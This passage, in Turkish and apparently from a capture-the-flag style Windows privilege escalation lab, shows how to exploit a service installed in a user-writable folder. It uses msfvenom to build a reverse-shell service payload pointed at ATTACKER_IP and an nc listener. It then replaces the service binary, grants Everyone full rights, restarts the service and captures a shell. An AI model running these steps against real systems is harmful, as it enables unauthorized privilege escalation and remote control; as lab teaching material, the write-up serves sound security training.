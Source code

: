 Bu basit görünse de, servis yürütülebilir dosyalarının çoğu, varsayılan olarak C:\Program Files veya C:\Program Files (x86) altına yüklenecektir ve bu klasör, yetkisi olmayan kullanıcılar tarafından yazılamaz. Bu, herhangi bir güvenlik açığı bulunan hizmetin kötüye kullanılmasını önler. Bu kuralın istisnaları vardır: - Bazı yükleyiciler yüklü klasörlerdeki izinleri değiştirerek servisleri savunmasız hale getirir. - Yönetici, servis binary dosyalarını varsayılan olmayan bir yola yüklemeye karar verebilir. Böyle bir yol herkes tarafından yazılabilir izne sahipse, güvenlik açığından yararlanılabilir.

Bizim durumumuzda, Yönetici Disk Sorter binary dosyalarını c:\MyPrograms altına kurdu. Varsayılan olarak bu, herhangi bir kullanıcının bu dizin içinde dosya ve klasör oluşturmasına olanak tanıyan C:\ dizininin izinlerini devralır. Bunu icacls kullanarak kontrol edebiliriz:

    C:\>icacls c:\MyPrograms
    c:\MyPrograms NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
                BUILTIN\Administrators:(I)(OI)(CI)(F)
                BUILTIN\Users:(I)(OI)(CI)(RX)
                BUILTIN\Users:(I)(CI)(AD)
                BUILTIN\Users:(I)(CI)(WD)
                CREATOR OWNER:(I)(OI)(CI)(IO)(F)

    Successfully processed 1 files; Failed processing 0 files

BUILTIN\\Users grubu, kullanıcının sırasıyla alt dizinler ve dosyalar oluşturmasına olanak tanıyan AD ve WD ayrıcalıklarına sahiptir.

Msfvenom ile bir exe-servis payloadı oluşturup hedef ana bilgisayara aktarma işlemi öncekiyle aynıdır, bu nedenle aşağıdaki payloadı oluşturup daha önce olduğu gibi sunucuya yükleyeceğiz. Ayrıca çalıştırıldığında reverse shell'i alacak bir dinleyici başlatacağız:

    user@attackerpc$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4446 -f exe-service -o rev-svc2.exe

    user@attackerpc$ nc -lvp 4446

Payload sunucuya girdikten sonra, onu, hijack'ın meydana gelebileceği konumlardan herhangi birine taşıyın. Bu durumda payloadımızı C:\MyPrograms\Disk.exe'ye taşıyacağız. Ayrıca dosyanın servis tarafından yürütülebilmesini sağlamak için herkese dosya üzerinde tam izinler vereceğiz:

    C:\> move C:\Users\thm-unpriv\rev-svc2.exe C:\MyPrograms\Disk.exe

    C:\> icacls C:\MyPrograms\Disk.exe /grant Everyone:F
            Successfully processed 1 files.

Servis yeniden başlatıldığında payload yürütülecektir:

    C:\> sc stop "disk sorter enterprise"
    C:\> sc start "disk sorter enterprise"

Sonuç olarak, svcusr2 yetkilerine sahip bir reverse shell elde edeceksiniz:

    user@attackerpc$ nc -lvp 4446
    Listening on 0.0.0.0 4446
    Connection received on 10.10.175.90 50650
    Microsoft Windows [Version 10.0.17763.1821]
    (c) 2018 Microsoft Corporation. All rights reserved.

    C:\Windows\system32>whoami
    wprivesc1\svcusr2
